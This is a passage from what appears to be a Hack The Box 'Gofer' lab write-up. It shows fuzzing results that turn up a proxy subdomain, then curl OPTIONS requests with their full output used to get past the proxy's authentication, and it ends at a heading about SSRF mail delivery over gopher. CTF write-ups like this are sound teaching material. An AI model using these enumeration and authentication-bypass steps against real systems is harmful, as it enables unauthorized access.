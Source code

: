 ```

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                         
=====================================================================

000000084:   401        14 L     54 W       462 Ch      "proxy"
```

This step took much longer than it should have. After figuring out that the OPTIONS method could be used to enumerate valid pages it was possible to find the way forward.

```
┌─[parrot@parrot]─[~/hackthebox/gopher]
└──╼ $curl -v -XOPTIONS http://proxy.gofer.htb/index.html
*   Trying 10.129.143.86:80...
* Connected to proxy.gofer.htb (10.129.143.86) port 80 (#0)
> OPTIONS /index.html HTTP/1.1
> Host: proxy.gofer.htb
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Mon, 31 Jul 2023 06:09:47 GMT
< Server: Apache/2.4.56 (Debian)
< Allow: HEAD,GET,POST,OPTIONS
< Content-Length: 0
< Content-Type: text/html
< 
* Connection #0 to host proxy.gofer.htb left intact
┌─[parrot@parrot]─[~/hackthebox/gopher]
└──╼ $curl -v -XOPTIONS http://proxy.gofer.htb/index.php
*   Trying 10.129.143.86:80...
* Connected to proxy.gofer.htb (10.129.143.86) port 80 (#0)
> OPTIONS /index.php HTTP/1.1
> Host: proxy.gofer.htb
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Mon, 31 Jul 2023 06:09:58 GMT
< Server: Apache/2.4.56 (Debian)
< Vary: Accept-Encoding
< Content-Length: 81
< Content-Type: text/html; charset=UTF-8
< 
<!-- Welcome to Gofer proxy -->
* Connection #0 to host proxy.gofer.htb left intact
<html><body>Missing URL parameter !</body></html>
```

# Sending Mail via SSRF with gopher protocol
